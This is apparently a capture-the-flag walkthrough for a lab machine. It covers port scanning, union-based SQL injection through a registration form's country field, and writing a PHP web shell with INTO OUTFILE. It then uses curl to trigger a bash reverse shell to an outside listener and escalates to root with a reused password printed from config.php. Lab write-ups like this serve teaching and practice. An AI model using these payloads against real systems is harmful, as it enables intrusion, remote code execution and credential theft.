




# Recon

```bash
nmap -p- -oA scans/nmap-alltcp 10.10.11.116
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
4566/tcp open     kwtc
8080/tcp open     http-proxy
```

```bash
nmap -p 22,80,4566,8080 -sVC -oA scans/nmap-tcpdetail 10.10.11.116
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8f5efd2d3f98dadc6cf24859426ef7a (RSA)
|   256 463d6bcba819eb6ad06886948673e172 (ECDSA)
|_  256 7032d7e377c14acf472adee5087af87a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesnt have a title (text/html; charset=UTF-8).
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.97 seconds
```

```bash
feroxbuster -o scans/endpoints -u http://10.10.11.116
301      GET        9l       28w      309c http://10.10.11.116/js => http://10.10.11.116/js/
200      GET        7l     1608w   140930c http://10.10.11.116/css/bootstrap.min.css
200      GET      268l      747w    16088c http://10.10.11.116/
403      GET        9l       28w      277c http://10.10.11.116/css/
301      GET        9l       28w      310c http://10.10.11.116/css => http://10.10.11.116/css/
403      GET        9l       28w      277c http://10.10.11.116/server-status
```

Other http sites on server didn't yield any useful results when scanned for endpoints.

# Shell as www-data

There is only one input on the page:  
  

We begin by using the application as normal user would.
After clicking "Join Now" we see the following:  
  

It seems, that the site displays your username along with
the usernames of people, who are from the same country.

It looks like there might be an SQL injection here somewhere,
as the data about users is (obviously) stored somewhere, and we
see it output as a table.

Request for creating player looks like this:
```
POST / HTTP/1.1
Host: 10.10.11.116
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.116
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 ...
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif ...
Referer: http://10.10.11.116/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=admin&country=Brazil
```

In response, we receive a cookie (which is just a md5-hashed username),
and using this cookie we can access user dashboard (second screenshot).

We tested for IDOR vulnerability using common usernames, but there wasn't
any new or interesting data to be acquired.

After some testing we were able to see, that injecting SQL special characters
in country field yielded error:

```
:  Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33
Stack trace:
#0 {main}
  thrown in <b>/var/www/html/account.php</b> on line <b>33
```

From that, we got to know three things:  
1. This field seems to be vulnerable to SQL injection
2. Webserver home directory is /var/www/html
3. This app is written in PHP

After narrowing down, which special character caused the error, 
we were able to make a simple Union-based SQL injection:
```
...SNIP...
username=adminek&country=' UNION select 1-- -
```

  

Now, we will leverage this vulnerability to enumerate
the database and acquire as much information as possible.

First, we get user:
```
' UNION select user()-- -
uhc@localhost
```

Version:
```
' UNION select @@version-- -
10.5.11-MariaDB-1
```

Databases:
```
' UNION select schema_name from INFORMATION_SCHEMA.SCHEMATA-- -

information_schema
performance_schema
mysql
registration
```

Tables in database:
```
' UNION select TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='registration'-- -
registration
```

Columns in table:
```
' UNION select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where table_name='registration'-- -
username
userhash
country
regtime
```

Sadly, when enumerating usernames in hopes something new would be found, only user-created ones 
were displayed. Maybe another approach is required in order to pwn this box. We will now try to
identify the rights of the user we have, and try to see what else, apart from enumerating the 
database, can we do.

```
' UNION select super_priv from mysql.user where user="uhc"-- -
Y
```

Our user has super privileges in the database.
We will try to write a test file to webserver home. 
If it succeeds, we would be able to upload php webshell, and gain RCE.

```sql
' UNION SELECT "this is a test" INTO OUTFILE "/var/www/html/test.txt"-- -
```

Despite seeing error being thrown, we still successfuly accessed our test file:


Time to upload our webshell:
```sql
' UNION SELECT "<?php system($_REQUEST[0]); ?>" INTO OUTFILE "/var/www/html/shell.php"-- -
```

We will use it to initiate a reverse connection and get a shell:
```bash
curl -s --get \
  --data-urlencode "0=bash -c 'bash -i >& /dev/tcp/10.10.14.23/9001 0>&1'" \
  "http://10.10.11.116/shell.php"
```

# Shell as root

In the directory we landed after obtaining reverse shell,
there is a previously unavailable file in there, called config.php.

Inside, there is a database password. It turns out it's also root user
password, which we can use to authenticate as root:

```
su 
Password: uhc-9qual-global-pw
```
